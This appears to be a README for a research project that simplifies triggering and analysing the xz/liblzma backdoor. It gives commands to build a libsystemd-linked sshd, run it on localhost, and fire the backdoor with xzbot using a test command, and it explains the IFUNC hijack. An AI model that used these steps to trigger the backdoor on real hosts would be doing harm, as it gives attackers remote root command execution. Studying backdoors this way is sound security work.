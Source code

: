 This project tries to minimize the number of steps necessary to trigger the
[xz backdoor](https://en.wikipedia.org/wiki/XZ_Utils_backdoor).

The backdoor needs `sshd` compiled with libsystemd support, which requires a
patch most distributions don't ship.

Here's how you can check if `sshd` is linked against libsystemd:

```sh
readelf -d /usr/sbin/sshd | grep NEEDED
```

To help testing a script to build `sshd` with the libsystemd patch is included:

```sh
make sd_sshd
```

Then just `sshd` with the helper script:

```sh
sudo ./run_sshd
```

This is simply a wrapper to run `sshd` in a clean environment and with
debugging options:

```sh
env -i LD_LIBRARY_PATH="$PWD" "$PWD/sd_sshd" -D -d -oListenAddress=127.0.0.1 -p2222
```

Then you can use [xzbot](https://github.com/amlweems/xzbot) to trigger the
backdoor. It will use a custom ed448 key generated with 0 as seed.

```
make xzbot
./xzbot -cmd 'id > /root/xz'
```

# How?

The backdoor is installed before the program starts, when the linker is
executing checks. It's abusing the
[IFUNC](https://sourceware.org/glibc/wiki/GNU_IFUNC) functionality in a
resolver function that is supposed to be calling `__get_cpuid` to check for cpu
features, but instead the build system modified the code to call `_get_cpuid`
which is inside the backdoor binary, and does **much more**.

Since this repository contains a simplified version of liblzma it's clear what
they were trying to do in commit
[f8c8e5a](https://github.com/felipec/xz-min/commit/f8c8e5a).

The backdoor works because many people made mistakes:

 1. The complexity of xz trying to build for a bajillion systems with two
    build systems and few development resources enabled a malicious developer
    to inject a couple of lines in a script with tens of thousans of lines of
    code that is generated for tarballs and nobody looks at.
 2. The developers of systemd did not design it with modularity in mind, so the
    singular libsystemd library provides a ton of functionality most people
    won't use and has nothing to do with an init system, like process
    compressed system logs. Therefore everyone that links to libsystemd links
    to liblzma as well.
 3. Maintainers patched `sshd` to link to libsystemd for a minor feature.

The backdoor binary is incredibly complex and it will take a while to properly
understand all what it does.

I created this project to simplify the process of analysis.
